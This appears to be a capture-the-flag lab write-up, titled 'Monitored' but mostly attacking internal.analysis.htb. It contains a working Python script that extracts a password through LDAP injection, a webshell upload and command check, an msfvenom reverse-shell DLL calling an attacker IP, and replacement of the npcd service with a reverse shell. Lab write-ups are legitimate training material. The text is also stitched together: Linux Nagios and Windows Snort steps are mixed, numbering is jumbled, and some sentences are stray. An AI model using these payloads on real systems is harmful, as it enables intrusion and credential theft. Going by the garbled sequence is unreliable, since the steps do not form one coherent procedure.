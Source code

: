 sup:: [[Home]]
tags:: #map 

# Monitored 🗃

![image](https://github.com/user-attachments/assets/b964d909-8158-4653-a20a-f8974e9a89c5)


Let's get started...

---
### Steps
1.  **Start your vpn**
	Go to the directory where your downloaded vpn and start the vpn as shown below
	
![Pasted image 20240114130711](https://github.com/user-attachments/assets/e95d6bbf-468d-46d3-94b5-8a0ee4629711)


Next, we will perform directory bruteforcing with dirsearch:

![Pasted image 20240125091611](https://github.com/user-attachments/assets/84641f85-55e3-48fd-b86d-6e7196910ab9)


2. Run a scan using incursore.sh
    
![Pasted image 20240125091813](https://github.com/user-attachments/assets/b9e519f3-cb78-4bb2-8993-b28edb8609e3)

![Pasted image 20240125094504](https://github.com/user-attachments/assets/a9bf7880-6371-4051-b101-e324737fd26d)

![Pasted image 20240125095313](https://github.com/user-attachments/assets/70e3cbae-072b-4e94-82f3-69e9278428eb)


3. Began enumerating the dns for sub-domains:
	a. 	
![Pasted image 20240125104520](https://github.com/user-attachments/assets/4c3eaa5d-864e-44d6-8c48-fa122766ebb8)


	b. I tried running with gobuster:

![Pasted image 20240125120548](https://github.com/user-attachments/assets/faeb2b70-6205-4691-9e1d-9d5a03e6daaa)



![Pasted image 20240126082147](https://github.com/user-attachments/assets/b12cae25-cce9-474b-8c88-34479030b061)


ffuf -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://internal.analysis.htb/FUZZ

![Pasted image 20240126123301](https://github.com/user-attachments/assets/08de5ba4-0a49-445a-a697-b415ee626dac)

![Pasted image 20240126124148](https://github.com/user-attachments/assets/b4654827-4c72-4ac1-80d3-6ad22daddfe7)


		c. Next, again ran ffuf

ffuf -w SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://internal.analysis.htb/employees/FUZZ -e .php,.html,.js

![Pasted image 20240125192113](https://github.com/user-attachments/assets/97accf50-33f7-4ae9-bc9b-872f722a0431)


![Pasted image 20240125193911](https://github.com/user-attachments/assets/4bce38b9-6af8-474a-9342-47a90d5e0363)



6. Next, nabigate to the /login.php found by ffuf:

![Pasted image 20240125185823](https://github.com/user-attachments/assets/63717b31-5731-443b-ac37-c2d037ea47b2)


7. Ran ffuf again but this time it was for the /users

ffuf -w SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://internal.analysis.htb/users/FUZZ -e .php,.html,.js


![Pasted image 20240125204937](https://github.com/user-attachments/assets/975b9fa7-6d7e-447f-9bad-7fdd3820cfee)


9. Accessing the /list.php page, we found this:
![Pasted image 20240126024735](https://github.com/user-attachments/assets/3572d696-4fd9-4372-a5fb-cec6748c154f)


10. Now, since the parameter is missing let's try with parameters:

id=1&name=test
![Pasted image 20240126031222](https://github.com/user-attachments/assets/a70a9a00-bef8-41de-926c-9e9a74d0fce7)


name=*
![Pasted image 20240126031321](https://github.com/user-attachments/assets/1eea2747-252c-4f6c-a7a1-a30dac22eadf)



12. Enumerated with kerberute
![Pasted image 20240126081530](https://github.com/user-attachments/assets/b19ec089-df0f-44cd-b412-7618a0dfeb2b)


13. Crafted a python script to crack the password:
```python
#!/usr/bin/python

import argparse
import requests
import urllib.parse

def main():
    charset_path = "/home/kali/SecLists/Fuzzing/alphanum-case-extra.txt"
    base_url = "http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description={found_char}{FUZZ}*)"
    found_chars = ""
    skip_count = 6
    add_star = True
    with open(charset_path, 'r') as file:
        for char in file:
            char = char.strip()
            # URL encode the character
            char_encoded = urllib.parse.quote(char)
            # Check if '*' is found and skip the first 6 '*' characters
            if '*' in char and skip_count > 0:
                skip_count -= 1
                continue
            # Add '*' after encountering it for the first time
            if '*' in char and add_star:
                found_chars += char
                print(f"[+] Found Password: {found_chars}")
                add_star = False
                continue
            modified_url = base_url.replace("{FUZZ}", char_encoded).replace("{found_char}", found_chars)
            response = requests.get(modified_url)
            if "technician" in response.text and response.status_code == 200:
                found_chars += char
                print(f"[+] Found Password: {found_chars}")
                file.seek(0, 0)

if __name__ == "__main__":
    main()
```


14. The script was able to find the password:

![Pasted image 20240126085743](https://github.com/user-attachments/assets/16d63526-3f3e-4edb-ac7f-cc5b00587f44)

I checked the IP of my VPN
97NTtl*4QP96BV

I now inserted it into the shell command and clicked on Save button:


12. Used the found credentials to enter into the login page:

![Pasted image 20240126085529](https://github.com/user-attachments/assets/04880ed9-c4a7-4076-b43c-89e28bbacef8)


14. And we got authenticated:

![Pasted image 20240126090239](https://github.com/user-attachments/assets/ad3dfb29-ab15-41bd-8f03-f2ea6d9b50f2)


16. Navigated to SOC Report and went in search of a webshell to see if I can upload it to the site:
![Pasted image 20240126090520](https://github.com/user-attachments/assets/fe597cd1-e2cf-41eb-bd2e-6c6f22313338)

![Pasted image 20240126104443](https://github.com/user-attachments/assets/d02a62e8-e8e8-49f3-8364-62045db0c4d6)


18. Since we uploaded the webshell and there wasn't error "File is safe" we need to confirm if it uploaded successfully:
http://internal.analysis.htb/dashboard/uploads/webshell.php?cmd=whoami

![Pasted image 20240126104542](https://github.com/user-attachments/assets/8ed3c932-4b9f-4a74-bd40-100bfa0c03be)


19. Now, let's use a php cmd shell to upload this time:

![Pasted image 20240126120722](https://github.com/user-attachments/assets/a6390b57-14d4-4dc9-93d2-aadc45f38a42)



![Pasted image 20240127091751](https://github.com/user-attachments/assets/d7fcf796-5d02-4ba6-bd50-86ad9f45c103)



21. We could try to abuse the service by either stopping, restarting and so on the npcd service. But first, let's attempt to stop the service.

Note: Before we do that I always like to create a backup file, just in case something goes wrong we can always revert back:

![Pasted image 20240127092659](https://github.com/user-attachments/assets/7549c95c-3017-46cc-ba97-f56e96142ec2)


![Pasted image 20240127092914](https://github.com/user-attachments/assets/f7ecaf4a-57f5-4359-afbd-565cb1bc4c90)


![Pasted image 20240127100342](https://github.com/user-attachments/assets/36ddcf3f-1c9a-489a-802e-718d48fe6344)


16. Created a dll payload for transfer to the target:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.151 LPORT=4555 -f dll -o r2.dll

!![Pasted image 20240127120423](https://github.com/user-attachments/assets/7aaf7f28-95f3-4d76-b0e9-0c6b77059032)



16. Upload the dll file
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd

![Pasted image 20240127104013](https://github.com/user-attachments/assets/017b907d-5b4b-4523-ba65-a489356ed2b8)


17. Now. let's delete the npcd file

![Pasted image 20240127104054](https://github.com/user-attachments/assets/3d9abc1d-9285-40b5-a84d-57dd6eed1920)


18. Now, we can create our own npcd file with a reverse shell code inside:

![Pasted image 20240127104249](https://github.com/user-attachments/assets/dc6a481d-323a-4813-a576-d396c66debc6)


19. Give the file execute permissions:

![Pasted image 20240127114949](https://github.com/user-attachments/assets/f3d1f4a4-ff1a-4ac0-aa6a-7308f7ede5d4)



20. Remove any exploit to clean up the system

Powershell commandlet
Remove-Item C:\Snort\lib\snort_dynamicpreprocessor\l2.dll

![Pasted image 20240127140951](https://github.com/user-attachments/assets/54df9c6f-fa82-4c29-80b4-24f0955ea150)


So, finally we escalated our privileges to the root user!!!
